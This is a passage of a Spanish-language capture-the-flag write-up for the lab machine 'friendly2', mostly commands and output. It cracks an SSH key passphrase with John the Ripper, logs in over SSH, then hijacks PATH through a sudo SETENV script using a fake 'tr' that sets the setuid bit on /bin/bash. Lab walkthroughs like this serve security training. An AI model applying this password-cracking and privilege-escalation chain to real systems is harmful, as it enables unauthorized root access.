 ```bash
$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
****ic           (id_rsa)     
1g 0:00:00:07 DONE (2023-05-10 11:38) 0.1396g/s 35.75p/s 35.75c/s 35.75C/s tiffany..freedom
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Y tenemos la clave de la id\_rsa.
```bash
ssh -i id_rsa gh0st@10.0.2.110
Enter passphrase for key 'id_rsa': 
Linux friendly2 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
-bash-5.1$ whoami
gh0st
```
# Shell como root
Al hacer un sudo -l encontre que podemos ejecutar un script de root como cualquier usuario. Ademas del SETENV.
```bash
-bash-5.1$ sudo -l
Matching Defaults entries for gh0st on friendly2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gh0st may run the following commands on friendly2:
    (ALL : ALL) SETENV: NOPASSWD: /opt/security.sh
-bash-5.1$
```
Viendo el contenido del script me doy cuenta de que hay varias rutas relativas y no absolutas y con el permiso SETENV deberiamos de poder realizar un pathhijacking exitoso.
Intente realizar el pathhijacking con otros de los comandos dentro del script, pero me funciono al intentar con tr. 
```bash
-bash-5.1$ cat tr
#!/bin/bash
chmod +s /bin/bash
-bash-5.1$ chmod +x tr
-bash-5.1$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/games
-bash-5.1$ PATH=/tmp:$PATH
-bash-5.1$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/games
-bash-5.1$ sudo -u 'root' PATH=/tmp:/usr/local/bin:/usr/bin:/bin:/usr/games /opt/security.sh
Enter the string to encode:
as
Original string: as
Encoded string: 
-bash-5.1$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```
Con esto hemos pwneado la maquina!!!